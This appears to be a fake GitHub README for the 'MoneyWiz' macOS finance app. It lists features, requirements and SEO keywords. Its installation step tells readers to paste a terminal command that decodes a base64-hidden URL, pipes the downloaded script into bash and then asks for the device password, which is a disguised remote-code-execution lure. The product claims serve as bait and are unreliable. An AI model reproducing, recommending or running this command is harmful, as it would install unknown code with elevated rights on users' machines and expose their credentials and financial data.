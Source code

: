 # 💰 MoneyWiz – Personal Finance Tracker for macOS

📌 About MoneyWiz  
MoneyWiz is a comprehensive finance management app for macOS designed to help individuals and families take full control of their budgets. It offers real-time syncing, multi-currency support, investment portfolio tracking, and direct bank imports. With a modern native macOS interface and Apple Silicon optimization, MoneyWiz keeps your financial life organized, accurate, and accessible across all your devices.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://images.ctfassets.net/13g5no3omm60/7xU0rfAaZenLGWKVs5bzYi/544177599759b0fabde533e2ecedd201/money-wiz.jpg)  
- ![](https://cdn.macstories.net/002/29845_MoneyWiz_Mac_scr1.png)  

## 🎯 Key Features  
⚡️ Syncs transactions and budgets across all devices in real time.  
🔒 End-to-end encryption for all financial data and cloud sync.  
⚙️ Connects to thousands of banks worldwide for auto-import.  
🚀 Optimized for Apple Silicon with fast financial data processing.  
🎨 Native macOS interface with widgets, reports, and Dark Mode.  
📊 Budgeting, cash flow forecasts, investment & loan tracking.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 300 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`moneywiz macos` · `personal finance tracker mac` · `budgeting app for mac` · `bank sync finance app` · `investment tracking mac` · `money manager macos` · `apple silicon finance app` · `expense tracker mac` · `macos budgeting tool` · `mac finance dashboard` · `real-time bank sync` · `loan tracker macos` · `multi-currency budget app` · `macos cash flow manager` · `end-to-end encrypted finance app`
